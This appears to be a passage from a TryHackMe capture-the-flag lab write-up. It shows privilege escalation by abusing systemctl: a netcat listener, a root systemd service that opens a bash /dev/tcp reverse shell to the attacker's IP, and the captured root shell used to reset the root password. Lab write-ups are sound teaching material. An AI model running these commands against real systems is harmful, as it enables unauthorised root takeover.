 ```
nc -lvnp 7777
```

Host THM IP: 10.18.10.39


---

[Bash TCP reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

Using systemctl to create a getroot.service to run as root:

```
echo "[Unit]
Description=Get root reverse shell.

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.18.10.39/7777 0>&1'

[Install]
WantedBy=multi-user.target" > /tmp/getroot.service
```

```bash
systemctl enable /tmp/getroot.service
systemctl start getroot
```

```
Listening on 0.0.0.0 7777
Connection received on 10.10.53.246 44768
bash: cannot set terminal process group (1715): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# whoami
whoami
root
root@vulnuniversity:/# passwd
passwd
Enter new UNIX password: newpasswd
Retype new UNIX password: newpasswd
passwd: password updated successfully
```

```bash
ssh root@$IP
```

PWNED ✅
